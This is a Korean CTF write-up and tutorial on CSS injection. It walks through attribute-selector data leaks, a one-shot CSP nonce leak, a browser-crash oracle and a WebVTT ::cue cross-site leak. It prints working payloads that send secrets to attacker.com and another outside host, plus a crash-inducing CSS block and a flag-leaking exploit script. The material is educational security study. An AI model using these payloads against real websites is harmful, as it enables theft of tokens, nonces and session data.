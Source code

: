 ```yaml
---
title: CSS injection#1
description: 다양한 CSS injection을 배워봅시다.
author: 임예준(Burnnnnny)
date: 2024-10-14 02:17:33 +0900
tags: [Tech, Webhacking, CTF]
categories: [Tech, Webhacking, CTF]
comments: false
math: true
mermaid: false
pin: false
image: /assets/img/CSS_injection/CSS_injection_thumbnali.png
---
```


## 목차
1. CSS injection
2. CSS Attribute Selector
3. 0CTF 2023-newdiary
4. Dice CTF 2024-another-csp
5. N1CTF 2023-ytiruces
6. comment
7. Reference

---

<br>
안녕하세요! Knights of the SPACE의 멤버로 활동하고 있는 임예준(Burnnnnny)입니다.

Client side 기법 중 하나인 CSS injection에 대해 알아보도록 하겠습니다.

이번에는 CSS injection에 대한 기본적인 개념 설명과 CTF 문제로 알아보는 다양한 CSS injection 기법을 소개하도록 하겠습니다.

### 배경지식
CSS injection에 대한 기본적인 개념을 간단히 설명하긴 하지만 CSS injection에 관련된 CTF나 워게임 풀이 경험이 있다면 해당 문서 내용을 이해하는 데 도움이 됩니다.

---
### CSS injection
CSS injection은 웹페이지에 임의의 CSS 구문을 삽입하거나 <style> 태그를 사용하여 악의적인 스타일을 주입하는 공격 기법을 말합니다.

보통 HTML을 주입할 수 있으나 CSP(Content Security Policy)에 의해 JavaScript를 사용할 수 없는 경우나 DOMPurify로 인해 위험한 태그들이 sanitize 됐을 때 CSS로 악의적인 행동을 수행할 수 있습니다.

또한 CSS는 외부 리소스를 불러오는 기능을 제공하기 때문에 외부 서버로 요청을 보낼 수 있습니다. 

> DOMPurify는 기본적으로 독립된 <style> 태그는 sanitize하지만, 다른 태그 내부에 중첩된 <style> 태그는 sanitize하지 않습니다.

![DOMPurify Example 1](/assets/img/CSS_injection/1.png){: width="60%" style="display: block; margin: 0 auto 25px auto; border: 2px dashed #000; padding: 10px; box-sizing: border-box;"}

![DOMPurify Example 2](/assets/img/CSS_injection/2.png){: width="60%" style="display: block; margin: 0 auto; border: 2px dashed #000; padding: 10px; box-sizing: border-box;"}


---

### CSS 특성 선택자

CSS 특성 선택자는 요소의 특성을 선택할 수 있는 기능을 제공합니다. 
<br>

| 구문 | 설명 |
|------|------|
| `[attr]` | `attr` 이라는 이름의 특성을 가진 요소를 선택합니다. |
| `[attr=value]` | `attr` 이라는 이름의 특성값이 정확히 `value` 인 요소를 선택합니다. |
| `[attr~=value]` | `attr` 이라는 이름의 특성값이 정확히 `value` 인 요소를 선택합니다. `attr` 특성은 공백으로 구분한 여러 개의 값을 가지고 있을 수 있습니다. |
| `[attr^=value]` | `attr` 이라는 특성값을 가지고 있으며, 접두사로 `value` 가 값에 포함되어 있으면 이 요소를 선택합니다. |
| `[attr$=value]` | `attr` 이라는 특성값을 가지고 있으며, 접미사로 `value` 가 값에 포함되어 있으면 이 요소를 선택합니다. |
|  `[attr*=value]` | `attr`이라는 특성값을 가지고 있으며, 값 안에 `value`라는 문자열이 적어도 하나 이상 존재한다면 이 요소를 선택합니다. |



CSS injection은 기본적으로 CSS 특성 선택자를 이용하여 조건이 맞을 경우에 외부서버로 요청을 보내 HTML요소의 값을 유출합니다.  

---

#### tip!

CTF 문제를 풀 때 많은 참가자들이 `[attr^=value]` 선택자만을 사용하여 CSS injection을 수행합니다.

이 방식은 각 문자를 하나씩 유출해야 하므로, 이론상 (사용 가능한 문자 수 X 유출하려는 요소의 데이터 길이)만큼의 요청이 필요해 익스플로잇을 하는데 많은 시간이 걸립니다.

하지만 더욱 효율적인 방법이 있습니다!

1. `[attr$=value]` 선택자 활용: 
   접두사(`^`)뿐만 아니라 접미사(`$`)도 함께 유출하면 필요한 요청 횟수를 절반으로 줄일 수 있습니다.

2. 병렬 요청 활용: 
   여러 선택자를 한 번에 요청하여 익스플로잇 시간을 대폭 단축할 수 있습니다. 

**코드예시**
```css
<style>
input[name="secret"][value^="da"] { background: url(https://attacker.com/leak?q=da) }
input[name="secret"][value^="db"] { background: url(https://attacker.com/leak?q=db) }
input[name="secret"][value^="dc"] { background: url(https://attacker.com/leak?q=dc) }
/* ... 중략 ... */
input[name="secret"][value^="dz"] { background: url(https://attacker.com/leak?q=dz) }
</style>

```

이렇게 하면 한 번의 요청으로 여러 가능성을 동시에 테스트할 수 있어, 전체 익스플로잇 과정의 속도를 크게 향상시킬 수 있습니다.

이러한 최적화 기법들을 적절히 조합하면, CSS injection 공격의 효율성을 크게 높일 수 있습니다.

---
### 0CTF 2023-newdiary
2023년 0CTF에서 출제된 newdiary라는 문제와 함께 일명 **'One-shot CSS injection'**을 설명하도록 하겠습니다. 

**'One-shot CSS injection'**은 이름처럼 유출하고자 하는 데이터를 한번에 유출하는 기법입니다. 


전체 풀이 설명보단 원리를 위주로 설명할 예정이니 전체 풀이가 궁금하신 분들은 Reference를 참고해주시면 됩니다.

해당 문제의 소스코드가 궁금하신 분은 [ctf-archives](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/0CTF/2023/web/newdiary)깃허브에서 소스코드를 확인해 보실 수 있습니다. 

newdiary는 innerHTML을 사용하여 DOM 기반 XSS가 가능하며, 이를 통해 FLAG가 담긴 쿠키를 탈취하는 문제입니다.

그러나 
```html
<meta http-equiv="Content-Security-Policy"
    content="script-src 'nonce-<%= nonce %>'; frame-src 'none'; object-src 'none'; base-uri 'self'; style-src 'unsafe-inline' https://unpkg.com">
```
다음과 같이 CSP에 `nonce`가 걸려있었고 `nonce`의 조합이 `a-zA-Z0-9`이며 32자 길이고 각 요청마다 `nonce`가 바뀝니다. 

그러나 `unsafe-inline`으로 인해 `<style>`태그가 사용이 가능하고 `unpkg.com`에서 파일을 업로드해 외부 CSS 사용이 가능합니다.  

그리고 `<meta>`태그내에 `nonce`가 있기 때문에 CSS로 `nonce`를 유출할 수 있습니다.

그럼 어떻게 한 번의 CSS injection 요청으로 nonce를 유출한 뒤 XSS를 통해 쿠키를 얻을 수 있을까요?

문제를 푸는데 가장 중요한 개념은 `[attr*=value]` 입니다.  

`[attr*=value]`는 `attr`이라는 특성값을 가지고 있으며, 값 안에 `value`라는 문자열이 적어도 하나 이상 존재한다면 

이 요소를 선택하는 CSS 특성선택자입니다. 

먼저 텍스트 조각들을 각각 3개의 문자를 포함하는 많은 작은 부분 문자열로 나눕니다. 

**코드예시**
```css
script[nonce*='aaa']{ --aaa: url('http://attacker.com/leak?x=aaa'); }
script[nonce*='aab']{ --aab: url('http://attacker.com/leak?x=aab'); }
script[nonce*='aac']{ --aac: url('http://attacker.com/leak?x=aac'); }
script[nonce*='aad']{ --aad: url('http://attacker.com/leak?x=aad'); }
script[nonce*='aae']{ --aae: url('http://attacker.com/leak?x=aae'); }
script[nonce*='aaf']{ --aaf: url('http://attacker.com/leak?x=aaf'); }
script[nonce*='aag']{ --aag: url('http://attacker.com/leak?x=aag'); }
script[nonce*='aah']{ --aah: url('http://attacker.com/leak?x=aah'); }
script[nonce*='aai']{ --aai: url('http://attacker.com/leak?x=aai'); }
script[nonce*='aaj']{ --aaj: url('http://attacker.com/leak?x=aaj'); }
script[nonce*='aak']{ --aak: url('http://attacker.com/leak?x=aak'); }

script{
  display: block;
  background-image: -webkit-cross-fade(
    var(--aaa, none),
    -webkit-cross-fade(
      var(--aab, none), var(--ZZZ, none), 50%
    ),
    50%
  )
```
`-webkit-cross-fade`를 사용하는 것은 여러 이미지를 로드하기 위함입니다. 

`nonce`를 예를 들어 `hspace`라고 가정해보겠습니다.

- ?x=hsp
- ?x=spa
- ?x=pac
- ?x=ace

다음과 같이 서버가 요청을 받을 겁니다. 

그러면 일부 문자가 겹쳐 규칙에 따라 결합하면 전체 `nonce`를 얻을 수 있습니다. 

해당 문제에 쓰인 기법을 직접 테스트해보고 싶으신 분들은 [sCSSLeak](https://github.com/ixSly/sCSSLeak)에서 git clone 한 뒤 테스트 해보실 수 있습니다. 


**'One-shot CSS injection'**은 특정 경우에서만 사용가능하지만 한번에 데이터전체를 유출한다는 점에서

제가 위에서 설명한 tip보다 훨씬 강력한 기법입니다. 

---

### Dice CTF 2024-another-csp
2024년 Dice CTF에서 출제된 another-csp라는 문제와 함께 Chromium Crash로 정보를 유출하는 방법을 설명하도록 하겠습니다.

해당 문제의 소스코드가 궁금하신 분은 [dicegang](https://github.com/dicegang/dicectf-quals-2024-challenges/tree/main/web/another-csp)깃허브에서 소스코드를 확인해 보실 수 있습니다. 


소스코드를 간단히 설명하자면 봇이 현재 실행중인지 아닌지를 확인할 수 있으며 문제서버의 token을 안다면 FLAG를 얻을 수 있습니다.


#### index.html
```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>another-csp</title>
	<meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'unsafe-inline'; style-src 'unsafe-inline'">
</head>
<body>
	<iframe id="sandbox" name="sandbox" sandbox></iframe>
</body>
<script>
	document.getElementById('form').onsubmit = e => {
		e.preventDefault();
		const code = document.getElementById('code').value;
		const token = localStorage.getItem('token') ?? '0'.repeat(6);
		const content = `<h1 data-token="${token}">${token}</h1>${code}`;
		document.getElementById('sandbox').srcdoc = content;
	}
</script>
</html>
```
`iframe`의 sandbox와 CSP또한 `default-src 'none';`으로 상당히 엄격하게 설정되어있는 것을 확인할 수 있습니다. 

sandbox때문에 javaScript도 쓸 수 없으면서 
보통의 CSS injection은 `img-src`나 `font-src` CSP가 허용된 경우 외부에 요청을 보내 유출하지만 CSP가 `default-src 'none'`으로 외부로는 요청보내기 어렵습니다. 


해당 문제를 푸는 방법은 무거운 CSS를 적용하여 브라우저의 크래시 발생 여부로 token을 유출하는 문제입니다.

[CSS:Using a color made with color-mix in relative color syntax causes the tab to crash with a SIGILL](https://issues.chromium.org/issues/41490764)

해당 버그를 이용하여 크래시를 발생시킵니다. 

```html
<style>
  h1[data-token^="a"] {
    --c1: color-mix(in srgb, blue 50%, red);
    --c2: srgb(from var(--c1) r g b);
    background-color: var(--c2);
  }
</style>
```
혼합색상을 사용하여 `data-token`이 접두사로 일치한다면 브라우저 오류를 일으켜, 웹페이지가 로드되는 시간을 길게하여 브라우저 상태를 파악해 token을 유출합니다. 

그런데 해당 코드는 현재 브라우저에서는 패치된듯 보이고 변수를 중첩하여 생성하는 CSS는 현재 크로미움 브라우저(버전 129.0.6668.101)에서도 크래시가 발생하는 모습을 볼 수 있습니다. 


**코드예시**
```html
<h1 data-token="abcd123">abcd123</h1>

<style>
   html:has([data-token^="a"]) {
      --a: url(/?1),url(/?1),url(/?1),url(/?1),url(/?1);
      --b: var(--a),var(--a),var(--a),var(--a),var(--a);
      --c: var(--b),var(--b),var(--b),var(--b),var(--b);
      --d: var(--c),var(--c),var(--c),var(--c),var(--c);
      --e: var(--d),var(--d),var(--d),var(--d),var(--d);
      --f: var(--e),var(--e),var(--e),var(--e),var(--e);
      --g: var(--f),var(--f),var(--f),var(--f),var(--f);
  }
  *{
    background-image: var(--g)
  }
</style>
```
직접 브라우저에서 실행시 아래 사진과 같이 STATUS_STACK_OVERFLOW 오류가 발생한 모습을 볼 수 있습니다. 

![3](/assets/img/CSS_injection/3.png)


CSS injection이 가능하지만 CSP로 인해 외부 요청이 막혔을 때도 정보를 유출할 수 있다는 점에서 흥미로운 기법이라고 생각합니다

---

### N1CTF 2023-ytiruces

2023년 N1CTF에서 출제된 ytiruces라는 문제와 함께 다른 페이지의 정보를 유출하는 공격 기법인 **webVTT cue XS-Leak**을 설명하도록 하겠습니다.

해당 문제의 전체 소스코드가 궁금하신 분은 [Nu1LCTF](https://github.com/Nu1LCTF/n1ctf-2023/tree/main/web/ytiruces) 깃허브에서 확인해 보실 수 있습니다. 

**webVTT cue XS-Leak**은 HTML과 CSS를 함께 주입하면서 기존의 CSS injection과 달리 공격 벡터가 다른 경로에 위치한 정보를 유출하는 기법입니다. 

#### app.js

```js
const express = require('express');
const cookieParser = require('cookie-parser');
const app = express();
const port = 3000;

app.use(cookieParser());
app.use('/static', express.static('static'))
app.use((req, res, next) => {
    res.set("X-Frame-Options", "DENY");
    res.set(
      "Content-Security-Policy", 
      "style-src 'unsafe-inline'; script-src 'self' https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.6/purify.min.js"
    );
    next();
  });
app.get('/', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

app.get('/flag', (req, res) => {
    res.type('text/plain');
    const name = req.query.name || 'admin';
    if (typeof name !== 'string' || name.length > 32 || /[^\x00-\x7f]/.test(name)) {
        res.send('Invalid name!');
        return;
    }
    const flag = req.cookies.flag || 'n1ctf{[A-Za-z]+}';
    res.send(`${name} ${flag}`);
});

app.listen(port, '0.0.0.0', () => {
    console.log(`App listening at http://0.0.0.0:${port}`);
});
```

app.js코드의 CSP를 보면 DOMPurify와 inline-css가 허용되어 CSS injection이 가능합니다.

그리고 '/flag' 경로에서 쿼리값의 타입,길이,아스키범위 검사 이후 `${name} ${flag}` 이런 형태로 `text/plain` MIME type 응답을 반환합니다.   


#### index.html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>YTIRUCES</title>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.0.6/purify.min.js"></script>
    <script src="/static/init.js"></script>
</head>
<body>
    <header>
        <h1>YTIRUCES</h1>
    </header>
    <nav>
        <a href="#home">Home</a>
    </nav>
    <div class="container">
        <article>
          loading...
        </article>
    </div>
</body>
</html>
```

#### /static/init.js
```js
window.addEventListener('load', function() {
    var params = new URLSearchParams(window.location.search);
    var danger_content = params.get('content') || "!dlrow olleH";
    var content = DOMPurify.sanitize(danger_content);
    document.querySelector('article').innerHTML = content;
});
```

init.js를 보면 메인 페이지에서 DOMPurify에 의해 XSS가 막혔지만 HTML injection이 가능합니다.

그럼 이제 어떻게 FLAG를 유출할 수 있을까요?

여기서 필요한 배경지식은 WebVTT, `<track>` 태그, `::cue`라는 CSS 의사요소입니다.

**배경지식**
>WebVTT는 비디오나 오디오와 함께 표시되는 텍스트 트랙을 정의하는 파일 형식입니다. 주로 자막, 캡션, 챕터 등을 표현하는 데 사용됩니다.

>`::cue`는 WebVTT 큐의 텍스트 콘텐츠를 스타일링하는 데 사용되는 CSS 의사 요소입니다. 이를 통해 자막이나 캡션의 스타일을 세밀하게 제어할 수 있습니다.

>`<track>` 태그는 HTML5 `<video>` 또는 `<audio>` 요소의 자식으로 사용되며, 외부 텍스트 트랙 파일(예: WebVTT 파일)을 지정합니다. 이를 통해 비디오나 오디오에 자막, 캡션 등을 추가할 수 있습니다.

해당 배경지식들은 웹에서 비디오나 오디오의 자막에 쓰이는 개념들입니다.


푸는 방법을 간단히 요약하자면 외부에서 `<video>`를 가져온 뒤 <track> 태그로 '/flag'경로를 webVTT texttrack으로 처리하고 `::cue`로 CSS 선택자로 조건이 맞는 FLAG를 공격자 사이트로 유출하는 기법입니다. 

먼저 '/flag'경로는 임의 문자열을 FLAG앞에 위치할 수 있습니다. 그리고 개행 또한 가능합니다.

그럼 공격 방법을 단계별로 설명하겠습니다:

1. 외부 비디오 소스를 참조하는 `<video>` 태그를 삽입합니다.
2. `<video>`태그 내부에 `<track>` 태그를 추가합니다.
3. `<track>` 태그의 src 속성을 '/flag' 경로로 설정하고, 추가 파라미터를 포함시킵니다.
4. 이 파라미터에 WebVTT 형식의 헤더와 타임스탬프를 포함시켜 '/flag' 경로의 응답을 WebVTT 파일로 해석되도록 합니다.

이를 구현한 페이로드는 다음과 같습니다:

```html
<video muted autoplay controls src="//attacker.com/a.mp3">
  <track default src="/flag?name=WEBVTT%0d00:00.000-->00:30.000%0d<v"/>
  <style>CSS injection payload...</style>
</video>
```

그리고 `<stlye>`태그안에 `::cue`로 FLAG를 CSS injection으로 유출합니다.

#### exploit
```js
let base = 'https://ytiruces.ctfpunk.com';
let base2 = '/?content=%3Cvideo%20muted%20autoplay%20controls%20src=//o.cal1.cn/s.mp3%3E%3Ctrack%20default%20src=%22/flag?name=WEBVTT%250d00:00.000--%3E00:30.000%250d%3Cv%22/%3E%3Cstyle%3E$CSS$%3C/style%3E%3C/video%3E';

let genCSS = (known,u)=>{
    let pool = [
       [...'abcdefghi'], 
       [...'jklmnopqr'], 
       [...'stuvwxyz'], 
       [...'ABCDEFGHI'], 
       [...'JKLMNOPQR'], 
       [...'STUVWXYZ}'],
   ];
    let ret = '';
    for (let i of pool[u]) {
        ret += `::cue(v[voice^=%22${known}${i}%22]){background:url(//o.cal1.cn/?${known}${i})}`
    }
    return ret
}

let known = 'n1ctf{';

console.log([
    base + base2.replace('$CSS$', genCSS(known, 0)),
    base + base2.replace('$CSS$', genCSS(known, 1)),
    base + base2.replace('$CSS$', genCSS(known, 2)),
    base + base2.replace('$CSS$', genCSS(known, 3)),
    base + base2.replace('$CSS$', genCSS(known, 4)),
    base + base2.replace('$CSS$', genCSS(known, 5)), 
])

```


참고로 거의 비슷한 기법이 ASIS CTF 2021 본선에서 classic이란 문제로 등장했었습니다.
- [ASIS 2021 final web classic](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/ASIS/2021/Finals/web/classic/stuff) 

- [parrot409-poc for classic](https://gist.github.com/parrot409/34194eb82b32e36d2a96d0bf3115a901)

상황자체는 조금 다르지만 기법 자체는 비슷해 보입니다. 

여담이지만 저의 경우 2024년에 진행한 YISF(순천향대 청소년 정보보호 페스티벌) 예선에 해당 기법을 이용한 문제를 출제하였습니다.

[cinema](https://dreamhack.io/wargame/challenges/1380)란 문제로, 현재 드림핵에 포팅되어 있으니 기법을 이해하셨으면 직접 한번 풀어보는 것을 추천하겠습니다.

---

### comment
CTF에서 나온 새롭고 창의적인 기법들을 이해한 뒤 문서로 정리하는 작업이 힘들지만 재밌었습니다.

그리고 CSS injection은 저 개인적으로 JavaScript없이 Leak한다는 점에서 흥미로운 기법이라고 생각합니다.
 
이번에 작성한 문서가 CSS injection을 공부하시려는 분들에게 도움이 되길 바랍니다.🙂

---

### Reference
- [DOMPurify 3.1.7 "Glow Stick"](https://cure53.de/purify)
- [mdn-css-Attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
- [CSS Injection: Attacking with Just CSS (Part 1)](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/)
- [CTF-archives-0CTF 2023-newdiary](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/0CTF/2023/web/newdiary)
- [salvatore-abello-newdiary](https://github.com/salvatore-abello/CTF-Writeups/tree/main/0ctf%20-%202023/newdiary#css-exploit)
- [Code Vulnerabilities Put Proton Mails at Risk](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/#leaking-a-blob-url)
- [ixSly-sCSSLeak](https://github.com/ixSly/sCSSLeak)
- [huli-0CTF 2023 Writeups](https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/)
- [huli-DiceCTF 2024 Writeup](https://blog.huli.tw/2024/02/12/en/dicectf-2024-writeup/#webx2fsafestlist-2-solves)
- [0xOne - 2024 Dice CTF Write up \[Web\]](https://one3147.tistory.com/77)
- [huli-A Bunch of Web and XSS Challenges](https://blog.huli.tw/2023/12/03/en/xss-and-web-challenges/)
- [WebVTT_API](https://developer.mozilla.org/en-US/docs/Web/API/WebVTT_API)
- [N1CTF复现游记](https://dem0dem0.top/2023/10/20/n1ctf2023/)